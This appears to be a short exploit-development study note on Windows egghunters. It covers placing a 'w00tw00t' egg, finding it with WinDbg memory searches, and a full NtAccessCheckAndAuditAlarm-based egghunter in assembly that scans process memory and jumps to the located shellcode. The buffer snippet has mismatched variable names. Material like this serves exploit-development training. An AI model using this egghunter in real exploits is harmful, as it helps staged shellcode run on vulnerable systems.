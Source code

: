 # Egghunters

## Egghunting

Manually send a dummy shellcode with an egg(dword):

```
dummmy = b"w00tw00t"
duy += b"\x41"*400
```

then search for it all over the memory space using `Windbg` command:

```
s -a 0 L?80000000 "w00tw00t"
```
After that to detremin where our shellcode is located we can take the found address and check it:
```
!address your_Address
```
![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/e185341f-28e3-44e9-83ab-8a5893b44727)

## NTAccess Egghunting
```
CODE = (

            "							 "
            "	loop_inc_page:			 "
            "		or dx, 0x0fff		;"
            "	loop_inc_one:			 "
            "		inc edx				;"
            "	loop_check:				 "
            "		push edx			;"
            f"		push 0x{ntaccess} 			;"
            "		pop eax				;"
            "		int 0x2e			;"
            "		cmp al,05			;"
            "		pop edx				;"
            "	loop_check_valid:		 "
            "		je loop_inc_page	;"
            "	is_egg:					 "
            f"		mov eax, 0x{egg_little_endian}	;"
            "		mov edi, edx		;"
            "		scasd				;"
            "		jnz loop_inc_one	;"
            "		scasd				;"
            "		jnz loop_inc_one	;"
            "	matched:				 "
            "		jmp edi				;"
        )
```
You can get the `NTAccess` syscall number as the following from `Windbg`:
- `u ntdll!NtAccessCheckAndAuditAlarm`:
![image](https://github.com/Zeyad-Azima/Zeyad-Azima.github.io/assets/62406753/d6016df9-8aa5-4594-9be5-60a33dee28ac)
